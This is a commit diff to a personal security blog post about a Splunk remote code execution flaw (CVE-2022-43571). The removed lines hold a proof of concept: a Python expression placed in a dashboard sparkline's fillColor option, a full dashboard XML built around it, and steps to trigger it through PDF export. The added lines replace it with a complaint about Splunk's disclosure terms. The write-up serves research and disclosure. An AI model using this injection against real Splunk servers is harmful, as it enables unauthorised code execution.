

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2022-12-18-CVE-2022-43571_SPLUNK_RCE.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 88% size, without its empty margins (106-1176 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2022-12-18-CVE-2022-43571_SPLUNK_RCE.md

````diff
--- a/_posts/hacking_and_pentests/2022-12-18-CVE-2022-43571_SPLUNK_RCE.md
+++ b/_posts/hacking_and_pentests/2022-12-18-CVE-2022-43571_SPLUNK_RCE.md
@@ -2,131 +2,54 @@
 layout: post
 title:  "CVE-2022-43571 Splunk RCE – my personal journey to color your life"
 datetime: 2022-12-18 23:50:00 MET
-last_modified_at: 2022-12-27 18:02:00 MET
+last_modified_at: 2024-09-18 23:30:00 MEST
 author: 'psytester'
 ---
 
-Only because I got the statement from my IT, there are no reasons for a SPLUNK update, I analyzed this vulnerability [CVE-2022-43571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43571) to prove the opposite for a remote code execution. Here is my exploit.
+Only because I got the statement from my IT department, there are no reasons for a SPLUNK update, I analyzed this vulnerability [CVE-2022-43571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43571) to prove the opposite for a remote code execution.<br>
 
-If I had found this vulnerability, I would like to name this „colorful sparklines“ ..... ;-)
+The research was only to force my IT department to do they job and for me to learn much more.<br>
 
-@SPLUNK you should not name the vulnerability nor address any details in your code. It was a fast pointer into right direction ;-)<br>
-/splunk/lib/python3.7/site-packages/splunk/pdf/pdfgen_utils.py
+Security vulnerabilities are often abstract and if you can't see how easy some of them are to exploit, you can't raise awareness.<br>
+It's actually hard to argue sometimes: Please do the update because there seem to be vulnerabilities.<br>
+But it is very easy if you can say: Look this vulnerability is just as easy to exploit.<br>
+That shortens many discussions extremely.<br>
+
+Now I'm pissed off for Splunk Inc.
+
+![Speleologist forbidden](https://psytester.github.io/images/HTTP_403.jpg)
+
+~~Dec. 2022 Here is my exploit.~~ Sep. 2024 Here **was** my exploit!
+
+Ouch, where did the article disappear to?<br>
+Apparently, by creating two reports via Hackerone, I agreed to Splunk's terms and conditions.<br>
+They say.<br>
+Yes, Splunk's landing page for reporting vulnerabilities refers to they GTC agreement.<br>
+
+Both reports where closed as informational only, although the first one can be used to create a user-controlled shell script for another vulnaribility<br>
+and the second was an step further but rejected because my "attack scenario requires misconfiguration"
+
+What happens behind the stage? Splunk states to me
 ```
-    SPL-228720 - colors.toColor has an unpatched remote code execution
-    vulnerability, so we need to only parse certain types of color strings.
+Splunk does not allow researchers to disclose contents of any submission without explicit Splunk authorization
+
+Disclosure Policy
+While we encourage you to discover and report to us any vulnerabilities found in a responsible manner, the following conduct is expressly prohibited and will result in possible legal action against you:
+Disclosing any vulnerabilities or suspected vulnerabilities discovered to any other person or organization without explicit Splunk authorization;
+Disclosing the contents of any submission without explicit Splunk authorization;
+[....]
 ```
 
-This is based on a known vulnerability from 2019 as [CVE-2019-17626](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17626)<br>
-It’s located in Python Reportlab colors.py line
-```
-    return toColor(eval(arg))
-```
-You know, any uncontrolled call of eval(arg) will lead to bad things.
+I agree to first sentence for my reports, as usual!<br>
+Is this valid for research work on exploits for Splunk's advisory?
 
-In 2020 the unsafe call was fixed with Reportlab version 3.5.34 with a sanitizer rl_safe_eval() method
-```
-    return toColor(rl_safe_eval(arg,g=G,l={}))
-```
+I have not found this chapter despite searching on their site or search engine.<br>
+But ok, I follow the rules and I don't need any legal dispute.<br>
 
-In SPLUNK 9.0.1 and 9.0.2 the updated Reportlab version is alrady in use.<br>
-A lot of code injection is not possible out of the box. I was not able to trick the sanitizer with my clumsy attempts.<br>
-But in SPLUNK 8.2.8 the vulnerability is still possible, because it’s using older Reportlab version.
+Lessons learned the hard way. Next time I will think twice to report to such VDP program.<br>
+They don't need me, I don't need them.
 
-A mitigation was added in /opt/splunk/lib/python3.7/site-packages/splunk/pdf/pdfgen_sparkline.py in version 8.2.9 & 9.0.2 at Splunk code.<br>
-Ok, we can inject the code with a sparkline ;-)<br>
-The method supports a lineColor and fillColor, both are calling Reportlab colors.
-
-Here I placed the code in fillColor funktion of sparkline:
-```
-<option name="fillColor">open('/tmp/PoC_code_injection.txt','a').write('color your life!')</option>
-```
-
-Create a SimpleXML dashboard with sparklines and save this „payload“.<br>
-In next step go to Export-->Generate PDF to trigger the code injection.
-```
-<dashboard script="table_with_multiple_sparkline_colors.js">
-  <label>Sparkline with different colors</label>
-  <row>
-    <panel>
-      <html depends="$alwaysHideCSSStylePanel$">
-        <style>
-          #tableWithMultipleSparklineColors table tbody tr td[data-cell-index="0"]{
-            font-size: 160% !important;
-            text-align:center !important;
-            color:white !important;
-          }
-          #tableWithMultipleSparklineColors table thead{
-            visibility:hidden !important;
-          }
-          #statistics table tbody tr:nth-child(1) td.string,
-          #statistics table tbody tr:nth-child(1) td.numeric{
-              font-size: 120%;
-              font-weight: bold;
-          }
-        </style>
-      </html>
-      <table id="tableWithMultipleSparklineColors">
-        <search>
-          <query>index=_internal
-| chart sparkline(count) as sparkline count as Total by component
-| sort - Total
-| head 7
-| reverse
-| streamstats count as sno
-| reverse
-| append [| makeresults | fields - _time | eval sno="",sparkline="Sparkline", Total="Total"]
-| reverse
-| eval sno=sno-2
-| eval sno=case(sno=-1,"down",
-                sno=0,"0",
-                sno=1,"1",
-                sno=2,"2",
-                sno=3,"3",
-                sno=4,"4",
-                sno=5,"All",
-                true(),sno)
-| table sno sparkline Total</query>
-          <earliest>-2h@h</earliest>
-          <latest>now</latest>
-          <sampleRatio>1</sampleRatio>
-        </search>
-        <option name="count">20</option>
-        <option name="dataOverlayMode">none</option>
-        <option name="drilldown">none</option>
-        <option name="percentagesRow">false</option>
-        <option name="rowNumbers">false</option>
-        <option name="totalsRow">false</option>
-        <option name="wrap">true</option>
-        <format type="color" field="sno">
-          <colorPalette type="map">{"down":#336699,
-                                    "0":#8C0000,
-                                    "1":#8B4000,
-                                    "2":#FC6600,
-                                    "3":#F9A602,
-                                    "4":#FFCC00,
-                                    "All":#000000}</colorPalette>
-        </format>
-        <format field="sparkline" type="sparkline">
-          <option name="lineColor">green</option>
-          <option name="fillColor">open('/tmp/PoC_code_injection.txt','a').write('color your life!')</option>
-          <option name="height">20px</option>
-          <option name="width">500px</option>
-        </format>
-      </table>
-    </panel>
-  </row>
-</dashboard>
-```
-
-Verify its execution by
-```
-cat /tmp/PoC_code_injection.txt
-```
-
-Thank you for reading. This is not my credit, this post was only to force the IT to do they job. ;-)
-
-@Splunk: Thank you! Just because of my work on this exploit, I realized what Splunk search & dashdoards can be used for. In past it was just another tool for log aggregation and trouble shooting. Now I visualize the api calls as system load.
+I will update this blog entry if I got the url pointing to this chapter.
 
 # Disclaimer
 
````
